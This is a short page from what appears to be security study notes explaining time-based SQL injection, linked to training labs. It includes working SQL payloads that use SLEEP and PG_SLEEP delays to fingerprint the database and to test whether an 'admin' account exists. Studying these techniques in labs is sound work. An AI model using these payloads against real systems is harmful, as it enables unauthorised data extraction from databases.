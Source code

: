 # Time-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![sql_injection_time_based](../../../../../_badges/rootme/web_server/sql_injection_time_based.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based)

<div class="row row-cols-lg-2"><div>

A time-based SQLi is when we internationally delay the response from the database based on the condition.

For instance, given the condition "if the DBMS is MariaDB, wait 5 seconds", assuming the usual requests takes 1 second, if the sleep request takes ~6 seconds, then will know that the DBMS is MariaDB.

```sql!
1337=(SELECT 1337 FROM SLEEP(5))
1337=(SELECT 1337 FROM PG_SLEEP(5))
```
</div><div>

The select is ONLY called if there is at least one record selected, meaning the condition in the where is at least true for one record.

```sql!
[...] AND 1337=(Select SLEEP(5) from accounts where username='admin')
[...] AND IF('admin'in(SELECT username from accounts),SLEEP(5),0)
```
</div></div>